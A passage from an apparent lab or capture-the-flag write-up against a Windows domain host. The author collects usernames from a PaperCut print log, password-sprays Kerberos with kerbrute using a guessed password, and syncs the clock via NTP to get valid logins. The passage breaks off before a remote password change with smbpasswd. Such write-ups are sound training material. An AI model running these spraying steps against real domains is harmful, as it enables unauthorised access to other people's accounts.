 When we visit http://10.10.10.193, we are redirected to fuse.fabricorp.local, so we'll need to add that url to /etc/hosts. Once we've done this, we can visit http://fuse.fabricorp.local, and we see that the PaperCut Print Logger is running. Looking through the print logs, we can get a username list:

*sthompson*
*pmerton*
*tlavel*
*bhult*
*administrator*
*bnielson*

Note: bnielson was found in the Document Name section, rather than the print job creator section.

We also see a document on the website named "Fabricorp01.docx" that looks like it may be a password, so we'll use kerbute to password spray:

```
kerbrute passwordspray --dc 10.10.10.193 -d FABRICORP users.txt Fabricorp01 -v

...
2020/06/18 08:16:39 >  [!] bnielson@FABRICORP:Fabricorp01 - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
2020/06/18 08:16:39 >  [!] sthompson@FABRICORP:Fabricorp01 - Invalid password
2020/06/18 08:16:39 >  [!] tlavel@FABRICORP:Fabricorp01 - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
2020/06/18 08:16:39 >  [!] bhult@FABRICORP:Fabricorp01 - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
...
```

It's interesting that we're getting a different error for tlavel, bnielson and bhult. If we do a quick udp nmap scan, we see that port 123 is open, so we can sync our time to the server:

```
...
123/udp   open          ntp          udp-response ttl 127 NTP v3
...
```

We'll use ntpdate to do this:

```
ntpdate -u fabricorp.local

18 Jun 08:37:16 ntpdate[17686]: step time server 10.10.10.193 offset +1042.801192 sec
```

Now, if we run kerbrute again, we get the following valid logins:

```
2020/06/18 08:37:30 >  [+] VALID LOGIN:  tlavel@FABRICORP:Fabricorp01
2020/06/18 08:37:30 >  [+] VALID LOGIN:  bhult@FABRICORP:Fabricorp01
2020/06/18 08:37:30 >  [+] VALID LOGIN:  bnielson@FABRICORP:Fabricorp01
```

We can try logging into different services (smb/rpc/winrm) with these credentials, but they're all either expired, or need to be changed on login, since the users haven't logged in for the first time yet. We can, however, use smbpasswd to change the password remotely:
